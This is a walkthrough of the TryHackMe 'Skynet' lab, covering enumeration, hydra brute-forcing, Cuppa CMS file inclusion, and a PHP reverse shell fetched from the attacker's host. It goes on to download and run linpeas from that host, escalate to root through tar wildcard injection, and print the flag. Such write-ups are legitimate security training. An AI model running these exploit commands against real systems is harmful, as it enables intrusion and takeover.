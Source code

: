 
# TryHackMe — Skynet | Full Walkthrough

**Author:** Adrian Korwel 

**Difficulty:** Medium  

**Objective:** Gain root access and retrieve the flags

---

## Enumeration (Initial Recon)

I started by scanning the target IP (10.10.3.106) using nmap:

```bash
nmap -sC -sV -oN skynet-scan.txt 10.10.3.106
```

**Open Ports:**
- 21 (FTP)
- 22 (SSH)
- 80 (HTTP)
- 110 (POP3)
- 143 (IMAP)

I noted the POP3 and IMAP services—possible email credentials. The HTTP server was my initial target, so I opened it in the browser and also ran gobuster:

```bash
gobuster dir -u http://10.10.3.106 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```

This revealed the directory `/squirrelmail`, which exposed a webmail login page.

---

## SquirrelMail: Email Bruteforce Attempt

I tried bruteforcing the login using hydra:

```bash
hydra -l milesdyson -P /usr/share/wordlists/rockyou.txt 10.10.3.106 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:Unknown user"
```

I didn’t get a valid login here, so I moved on.

---

## BurpSuite + Hydra Attack on Admin Panel

I found an admin login panel at:

```
http://10.10.3.106/45kra24zxs28v3yd/administrator/
```

Using BurpSuite, I captured the request:

```http
POST /45kra24zxs28v3yd/administrator/
user=admin&password=admin&task=login
```

From this, I crafted a hydra command:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.3.106 http-post-form "/45kra24zxs28v3yd/administrator/:user=^USER^&password=^PASS^&task=login:Incorrect username or password"
```

Still no valid credentials, so I suspected a possible vulnerability in the CMS instead.

---

## Cuppa CMS Vulnerability — LFI Exploit

After some research on the page source, I found the CMS was Cuppa CMS.

I searched for exploits:

```bash
searchsploit cuppa
```

Which led me to the following LFI vulnerability:

```bash
/cuppa/alerts/alertConfigField.php?urlConfig=[LFI]
```

I confirmed it with:

```bash
curl "http://10.10.3.106/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../etc/passwd"
```

This successfully dumped `/etc/passwd` — LFI confirmed

---

## Remote Code Execution via PHP Wrapper (LFI + RCE)

My goal now was to turn this LFI into RCE. I checked `/proc/self/environ` to try and inject a PHP payload via the User-Agent:

```bash
curl -A '<?php system($_GET["cmd"]); ?>' "http://10.10.3.106/45kra24zxs28v3yd/"
```

Then I accessed:

```bash
http://10.10.3.106/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../proc/self/environ&cmd=id
```

But I didn’t get code execution here, so I moved on to remote inclusion.

---

## Remote File Inclusion + PHP Reverse Shell

I used the LFI param to try RFI:

```bash
http://10.10.3.106/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.13.86.132:8000/php-reverse-shell.php
```

I hosted the reverse shell locally:

```bash
cd /usr/share/webshells/php
sudo cp php-reverse-shell.php ~/Documents
nano ~/Documents/php-reverse-shell.php  # set IP and port
cd ~/Documents
python3 -m http.server 8000
```

I listened on port 4444:

```bash
nc -lvnp 4444
```

After triggering the RFI URL, the reverse shell connected!

I had a shell as:  
**User:** www-data

---

## Privilege Escalation — Enumerating the Box

From the shell, I ran:

```bash
uname -a
whoami
```

Then I downloaded linpeas.sh:

```bash
wget http://10.13.86.132:8000/linpeas.sh -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh
```

This showed a cron job running every minute as root:

```bash
*/1 * * * * root /home/milesdyson/backups/backup.sh
```

---

## Wildcard Injection in Tar — PrivEsc to Root

I inspected `/home/milesdyson/backups/backup.sh`:

```bash
cd /home/milesdyson/backups
cat backup.sh
```

It runs:

```bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

Although I couldn't edit backup.sh, I could write into `/var/www/html`, which is where it runs the tar command. This is vulnerable to wildcard injection.

### Exploiting Tar’s --checkpoint-action

I did the following:

```bash
# Create a script that sets SUID on /bin/bash
echo -e '#!/bin/bash
chmod +s /bin/bash' > /var/www/html/root_shell.sh

# Craft the tar wildcard options
touch "/var/www/html/--checkpoint=1"
touch "/var/www/html/--checkpoint-action=exec=sh root_shell.sh"
```

After waiting 1 minute for the cron job, I checked:

```bash
ls -l /bin/bash
```

And saw the SUID bit set!

Now I ran:

```bash
/bin/bash -p
whoami
```

And I got: **root**

---

## Root Flag

Finally, I went to `/root` and grabbed the flag:

```bash
cd /root
cat root.txt
```

**Flag:** `3f0372db24753accc7179a282cd6a949`

---

## Summary

| Stage           | Method                                      |
|----------------|---------------------------------------------|
| Enumeration     | Nmap, Gobuster                              |
| Initial Access  | LFI + RFI via Cuppa CMS                     |
| Reverse Shell   | php-reverse-shell.php over HTTP             |
| Post-Enum       | linpeas.sh                                  |
| PrivEsc         | Wildcard Injection in tar via cron          |
| Root            | SUID /bin/bash trick                        |
| Root Flag       | ✅ Captured                                 |

---

## Lessons Learned

- Always test `/proc/self/environ` for LFI-RCE
- Wildcard injection in tar is powerful when `*` is used in cronjobs
- Having write access to a cron-executed directory can be lethal
- Enumeration is everything: linpeas and manual review were crucial
